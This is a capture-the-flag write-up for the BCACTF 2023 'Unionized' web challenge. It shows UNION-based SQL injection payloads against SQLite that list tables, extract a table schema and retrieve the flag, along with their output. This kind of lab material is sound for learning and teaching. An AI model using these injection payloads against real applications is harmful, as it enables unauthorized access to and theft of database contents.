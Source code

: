 ```yaml
---
title: BCACTF 2023 - Unionized 
date: Sun Jun 11 10:02:09 PM +04 2023
categories: [Writeup]
tags: [ctf,bcactf2023,web]
---
```


## Description

Unionized | 100 points | By `Shahmeer Ali`

I was messing with some SQL, so I made this basic website. It only stores school data...probably.

Web servers: [challs.bcactf.com:31052](http://challs.bcactf.com:31052/)

## Analysis

Since the website is simple it must be using Sqlite3. 

Let's see if we can find tables names. I used payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
```
high' 
UNION SELECT tbl_name FROM sqlite_master 
WHERE type='table' and tbl_name NOT like 'sqlite_%

-   Moonachie High
-   mystery
-   school_data
```

Extracting column names
```
high' 
UNION SELECT sql FROM sqlite_master 
WHERE type!='meta' AND sql NOT NULL AND name like 'mystery

-   CREATE TABLE mystery(unkn0wn TEXT)
-   Moonachie High
```

## Solution

```
high' 
UNION SELECT unkn0wn FROM mystery 
WHERE unkn0wn like 'bca

-   Moonachie High
-   bcactf{1_L0v3_sQl_UN10n_QU3r13S}
```